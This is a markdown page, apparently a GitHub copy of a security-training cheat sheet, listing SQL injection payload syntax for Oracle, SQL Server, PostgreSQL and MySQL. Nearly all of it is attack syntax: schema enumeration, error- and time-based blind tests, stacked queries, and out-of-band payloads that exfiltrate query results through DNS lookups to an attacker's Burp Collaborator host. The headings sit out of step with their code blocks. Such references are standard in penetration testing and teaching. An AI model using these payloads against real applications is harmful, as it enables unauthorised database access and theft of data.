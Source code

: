 ```yaml
---
layout: default
---
```



# SQL injection cheat sheet

This SQL injection cheat sheet contains examples of useful syntax that you can use to perform a variety of tasks that often arise when performing SQL injection attacks.
String concatenation
<br />

---
### You can concatenate together multiple strings to make a single string.

``` bash
Oracle 	'foo'||'bar'
Microsoft 	'foo'+'bar'
PostgreSQL 	'foo'||'bar'
MySQL 	'foo' 'bar' [Note the space between the two strings]
CONCAT('foo','bar')
Substring

```


---
### You can extract part of a string, from a specified offset with a specified length. Note that the offset index is 1-based. Each of the following expressions will return 
the string ba.

``` bash
Oracle 	SUBSTR('foobar', 4, 2)
Microsoft 	SUBSTRING('foobar', 4, 2)
PostgreSQL 	SUBSTRING('foobar', 4, 2)
MySQL 	SUBSTRING('foobar', 4, 2)
Comments
```

---
### You can use comments to truncate a query and remove the portion of the original query that follows your input.

``` bash
Oracle 	--comment
Microsoft 	--comment
/*comment*/
PostgreSQL 	--comment
/*comment*/
MySQL 	#comment
-- comment [Note the space after the double dash]
/*comment*/
Database version
```


---
### You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.

``` bash
Oracle 	SELECT banner FROM v$version
SELECT version FROM v$instance
Microsoft 	SELECT @@version
PostgreSQL 	SELECT version()
MySQL 	SELECT @@version
Database contents
```


---
### You can list the tables that exist in the database, and the columns that those tables contain.
``` bash
Oracle 	SELECT * FROM all_tables
SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'
Microsoft 	SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
PostgreSQL 	SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
MySQL 	SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
Conditional errors
```

---
### You can test a single boolean condition and trigger a database error if the condition is true.

``` bash
Oracle 	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual
Microsoft 	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END
PostgreSQL 	1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN CAST(1/0 AS INTEGER) ELSE NULL END)
MySQL 	SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')
Batched (or stacked) queries
```

---
### You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.
``` bash
Oracle 	Does not support batched queries.
Microsoft 	QUERY-1-HERE; QUERY-2-HERE
PostgreSQL 	QUERY-1-HERE; QUERY-2-HERE
MySQL 	QUERY-1-HERE; QUERY-2-HERE
Note
```

---
### With MySQL, batched queries typically cannot be used for SQL injection. However, this is occasionally possible if the target application uses certain PHP or Python APIs to communicate with a MySQL database.
Time delays

---
### You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.
``` bash
Oracle 	dbms_pipe.receive_message(('a'),10)
Microsoft 	WAITFOR DELAY '0:0:10'
PostgreSQL 	SELECT pg_sleep(10)
MySQL 	SELECT SLEEP(10)
Conditional time delays
```

---
### You can test a single boolean condition and trigger a time delay if the condition is true.
``` bash
Oracle 	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual
Microsoft 	IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'
PostgreSQL 	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END
MySQL 	SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')
DNS lookup
```

---
### You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use Burp Collaborator client to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.
_Oracle 	The following technique leverages an XML external entity (XXE) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:_
``` bash
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual

```


---
### The following technique works on fully patched Oracle installations, but requires elevated privileges:
``` bash
SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')
Microsoft 	exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'
PostgreSQL 	copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'
MySQL 	The following techniques work on Windows only:
LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')
SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'
```
DNS lookup with data exfiltration



---
### You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. To do this, you will need to use Burp Collaborator client to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data.
``` bash
Oracle 	SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
Microsoft 	declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')
PostgreSQL 	create OR replace function f() returns void as $$
declare c text;
declare p text;
begin
SELECT into p (SELECT YOUR-QUERY-HERE);
c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN''';
execute c;
END;
$$ language plpgsql security definer;
SELECT f();
MySQL 	The following technique works on Windows only:
SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'
```